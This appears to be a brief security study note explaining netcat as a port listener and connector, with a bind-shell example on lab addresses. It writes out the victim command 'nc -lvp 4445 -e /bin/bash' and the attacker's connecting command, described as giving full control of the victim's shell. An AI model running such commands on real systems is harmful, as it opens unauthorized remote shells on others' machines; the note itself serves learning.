

Netcat = port listener / port connecter
Example :
VICTIM (HOST) : 192.168.1.83 opens port 4445
- nc -lvp 4445 -e /bin/bash
ATTACKER (VM) : 192.168.1.37 bind shell on 192.168.1.37:4445
- nc 192.168.1.83 4445
- full control on victim shell
